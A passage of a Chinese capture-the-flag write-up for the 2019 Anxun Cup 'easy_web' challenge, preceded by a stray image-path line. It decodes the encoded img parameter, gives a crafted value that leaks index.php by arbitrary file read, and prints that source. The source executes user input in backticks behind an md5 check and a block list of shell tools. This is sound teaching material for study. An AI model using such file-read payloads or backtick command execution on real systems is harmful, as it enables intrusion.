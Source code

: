 拿到flag

# <安洵杯 2019>easy_web
打开题目，网址为
>index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=

这两个参数似乎可以利用
对`img`参数进行测试，发现加载的图片好像是由`img`决定的

对```TXpVek5UTTFNbVUzTURabE5qYz0```base64解码
得到`MzUzNTM1MmU3MDZlNjc=`，再次解码
得到`3535352e706e67`，再hex解码
得到`555.png`

那可以直接得到`index.php`的源码  ，~~那岂不是也可以直接拿到flag~~ 
```html
index.php?img=TmprMlJUWTBOalUzT0RKRk56QTJPRGN3&cmd=
```
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```
